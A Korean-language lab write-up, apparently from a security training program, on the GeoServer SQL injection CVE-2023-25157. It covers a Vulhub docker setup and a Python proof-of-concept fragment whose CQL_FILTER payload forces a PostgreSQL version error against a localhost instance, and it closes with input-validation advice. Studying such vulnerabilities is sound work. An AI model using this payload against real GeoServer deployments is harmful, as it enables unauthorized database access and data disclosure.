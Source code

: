 # geoserver CVE-2023-25157
> 화이트햇 3기 [30반] 김정우
---
github 링크 - https://github.com/custiya/geoserver-CVE-2023-25157 - 수정하기

### 취약점 요약
* CVE-2023-25157는 GeoServer라는 오픈소스 지도 데이터 서비스 웹 애플리케이션에 대해 발생한 SQLi 취약점
* GeoServer 2.22.0 이하의 일부 버전에서 발생
* WFS(Web Feature Service) 요청의 CQL_FILTER라는 파라미터가 취약함
* 인증없이 해당 API에 접근 가능하다면 누구든 이용 가능

### 환경 구성
* docker compose up -d 커맨드로 테스트 환경 실행
* http://your-ip:8080/geoserver 로 페이지에 접속 가능
* 먼저 PostGIS 데이터 저장소가 포함된 기존 작업 공간발견해야 함
* Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 존재
    * 작업 공간 이름 : vulhub
    * 데이터 저장소 이름 : pg
    * 테이블 이름 : example
    * 사용한 속성 : name

### poc.py
* 위에서 서술했던 내용을 기반으로 sqli 구문을 만든 형태
* 해당 구문을 request모듈을 사용하여 서버에 전달
* strStartsWith(name,'x'') = true
    * x 뒤의 '를 하나 더 추가하며 sql 문법 파괴
* and 1=(SELECT CAST ((SELECT version()) AS integer))
    * version() 함수는 PostgreSQL의 현재 버전을 반환하는 함수이며, 문자열
    * CAST(... AS integer)는 강제로 정수로 변환하므로 오류가 발생
    * 서버는 에러 메시지를 반환하게 되어, Blind SQL Injection 테스트가 가능
```
# 대상 URL
url = "http://localhost:8080/geoserver/ows"

# CQL_FILTER에 들어갈 원본 인젝션 문자열 (URL 디코딩된 상태)
cql_filter = "strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"

# 파라미터 설정
params = {
    "service": "wfs",
    "version": "1.0.0",
    "request": "GetFeature",
    "typeName": "vulhub:example",
    "CQL_FILTER": cql_filter
}
```
### 결과
![Alt text](result.png)

### 정리
* 해당 poc를 통해 SQLi의 발생 여부를 알아 볼 수 있었다. 공격자는 SQL 쿼리를 통하여 시스템 정보들을 수집할 수 있을 것 같다.
* 해당 공격을 막기 위하여, 사용자 입력값 검증이 필요이 추가되어야 한다. 또한 입력 받은 SQL 구문을 바로 번역해서 사용하는 것이 아니라 별도로 저장하여 사용하여야 한다.